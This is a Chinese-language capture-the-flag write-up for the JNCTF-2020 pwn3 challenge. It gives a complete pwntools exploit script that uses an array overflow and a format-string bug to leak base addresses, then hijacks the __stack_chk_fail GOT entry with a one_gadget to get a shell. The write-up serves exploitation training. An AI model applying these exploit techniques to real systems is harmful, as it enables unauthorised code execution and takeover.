 # JNCTF-2020 : jnctf_2020_pwn3

## **【原理】**
​	1、64位bss段格式化字符串漏洞

​	2、got表劫持

​	3、onegadget

​	4、数组溢出

## **【目的】**
getshell

## **【环境】**
Ubuntu 16.04

## **【工具】**
Pwntools,ida,gdb,one_gadget

## **【步骤】**

​          先通过数组溢出实现修改加密机会次数，再通过格式化字符串漏洞泄露栈上的一些敏感地址从而获取程序的基地址和libc的基地址，再通过格式化字符串漏洞修改___stack_chk_fail got表上的内容，覆盖为onegadget的地址，最后通过一下破坏cannary的栈溢出来实现getshell。


```python

from pwn import *
from sys import *
context.update(arch='amd64',os='linux',timeout=0.5)
context.log_level='debug'
#host = argv[1]
#port = int(argv[2])
#p = remote(host,port)
p = process('./jnctf_2020_pwn3')

elf = ELF('./jnctf_2020_pwn3')
libc = ELF('./libc-2.23.so')
onegadget = [0x45226,0x4527a,0xf0364,0xf1207]

def decode1(keys,payload):
	result = ''
	key = 0	
	for i in range(len(keys)):
		key ^= ord(keys[i])
	for i in range(len(payload)):
		result += p8(ord(payload[i])^key)
	return result
def decode2(payload):
	result = ''
	for i in payload:
		result+=p8(((ord(i)&0xc0)>>2) + ((ord(i)&0x30)>>2) + ((ord(i)&0xc)>>2) +((ord(i)&0x3)<<6))
	return result
def decode3(payload):
	result = ''
	for i in payload:
		result+=p8(((ord(i)&0xc0)>>6) + ((ord(i)&0x30)<<2) + ((ord(i)&0xc)<<2) +((ord(i)&0x3)<<2))
	return result
def encode1(keys,payload):
	p.sendlineafter('choice:','1')
	p.sendafter('key?\n',keys)
	p.sendafter('encode:\n',decode1(keys,payload))
def encode2(payload):
	p.sendlineafter('choice:','2')
	p.sendafter('encode:\n',decode2(payload))
def encode3(payload):
	p.sendlineafter('choice:','3')
	p.sendafter('encode:\n',decode3(payload))
def pr(str1,addr):
	log.success(str1+'===>'+hex(addr))

encode1('aaaa','a'*0x140+p64(0x100))
encode2('%10$p-%15$p-')
p.recvuntil('after encoding...\n')
programbase = int(p.recvuntil('-')[:-1],16)-0x920
__printf = int(p.recvuntil('-')[:-1],16)-153
libcbase = __printf - libc.sym['printf']
stack_fail = elf.got['__stack_chk_fail']+programbase
one = onegadget[0] + libcbase
pr('stack_fail',stack_fail)
pr('__printf',__printf)
pr('libcbase',libcbase)
pr('programbase',programbase)
pr('one',one)

#b1 = 0xe3a+programbase
#b2 = 0xd80+programbase
#gdb.attach(p,'b *'+hex(b1))
for i in range(6):
	encode1('aaaa',p64(stack_fail+i)+'\x00')
	encode3('\x00'*8)
	encode2('%'+str((one>>(8*i))&0xff)+'c%18$hhn'+'\x00')

encode1('a'*8,'a'*0x140+p64(0x100))
encode3('a')

p.interactive()




```

## **【总结】**
需要有一定的思路